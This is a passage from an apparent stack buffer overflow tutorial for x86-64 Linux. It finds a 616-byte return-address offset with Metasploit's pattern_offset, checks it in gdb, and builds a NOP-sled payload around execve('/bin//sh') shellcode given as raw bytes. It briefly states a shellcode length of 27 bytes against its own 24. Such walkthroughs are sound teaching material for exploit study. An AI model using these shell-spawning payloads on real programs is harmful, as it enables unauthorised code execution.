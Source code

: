 And we find the offset by using metasploit again

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x3775413675413575
```

Output:

```text
[*] Exact match at offset 616
```

It's a good practice to confirm if the offset is correct by checking cause
in some cases some other variables are closer to the return address or other
protections are involved which would make the offset different.

We can do that by running the following command in **gdb**

```bash
(gdb) r < <(python -c 'print("\x90"*616 + "BBBBBCCC")')
```

In our case it's correct

And checking the value of the **rsp** register

We also check if our NOPs are on the stack

```bash
(gdb) x/xg $rsp
```

In general the payload we need to run is:

```bash
python -c “print (NOP*no_of_nops + shellcode + random_data*no_of_random_data + memory address)”
```

Let's find our shellcode

2. Finding a shellcode

We need a shellcode:
`\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05`
`\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05`

We can find more:
[here](http://shell-storm.org/shellcode/)

And the length of the shellcode: len(shellcode) = 24

Let's insert our shellcode after our NOPs and then subtract the number of bytes
of shellcode we have from our NOPs so that we can still overwrite our return address.
In this case I have 27 bytes of shellcode

At this point, we need to know the size of our payload
and find the return address of the shellcode.

Payload(624 bytes) = NOP*(616 - 24) + 24(shellcode) + 8(return address)

```bash
run < <((python -c "print('\x90'*(616 - 24) + '\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05' + 'B'*8)"))
```
